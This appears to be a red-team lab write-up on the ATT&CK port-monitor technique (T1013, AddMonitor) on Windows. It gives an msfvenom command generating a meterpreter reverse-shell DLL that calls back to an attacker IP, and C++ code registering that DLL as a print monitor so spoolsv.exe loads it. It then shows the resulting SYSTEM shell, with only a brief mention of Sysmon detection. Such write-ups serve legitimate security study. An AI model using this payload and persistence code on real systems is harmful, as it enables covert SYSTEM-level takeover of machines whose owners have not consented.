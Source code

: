 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe as part of the technique - see bottom of the page for more info about the technique's high-lever overview:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code-tabs %}
{% code-tabs-item title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to %systemroot% and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed:

![](../.gitbook/assets/monitor-loaddll.png)

![](../.gitbook/assets/monitor-loaddll2.png)

which spawns a rundll32 process \(meterpreter payload\) which initiates a connection back to the attacker:

![](../.gitbook/assets/rundll-connect.png)

The attacker receives a reverse meterpreter session as **SYSTEM**:

![](../.gitbook/assets/monitor-shell-system.png)

The below shows confirms the procmon results explained above:

![](../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../.gitbook/assets/monitor-sysmon.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1013\",\"type\":\"link\",\"title\":\"Port Monitors - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=dq2Hv7J9fvk\",\"type\":\"video\",\"title\":\"DEF CON 22 - Brady Bloxham - Getting Windows to Play with Itself\",\"description\":\"Slides here: https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf\\n\\nGetting Windows to Play with Itself: A Hacker\'s Guide to Windows API Abuse \\nBrady Bloxham PRINCIPAL SECURITY CONSULTANT, SILENT BREAK SECURITY \\nWindows APIs are often a blackbox with poor documentation, taking input and spewing output with little visibility on what actually happens in the background. By analyzing \(and abusing\) the underlying functionality of these seemingly benign APIs, we can effectively manipulate Windows into performing stealthy custom attacks bypassing the latest in protective defenses. In this talk, we’ll get Windows to play with itself nonstop while revealing 0day persistence, previously unknown DLL injection techniques, and Windows API tips and tricks that any good penetration tester and/or malware developer should know. :\) To top it all off, a custom HTTP beaconing backdoor will be released leveraging the newly released persistence and injection techniques. So much Windows abuse, so little time.\\n\\n\\nBrady Bloxham is founder and Principal Security Consultant at Silent Break Security, where he focuses on providing advanced, custom penetration testing services. Brady started his career working for the various three letter agencies, where he earned multiple awards for exceptional performance in conducting classified network operations. Brady stays current in the information security field by presenting at various hacker conferences, as well as providing training on building custom offensive security tools and advanced penetration testing techniques. Brady also maintains the PwnOS project and holds several highly respected industry certifications. :\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/dq2Hv7J9fvk/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/dq2Hv7J9fvk?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/dq2Hv7J9fvk?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"AddMonitor function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"MONITOR\_INFO\_2 structure \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}



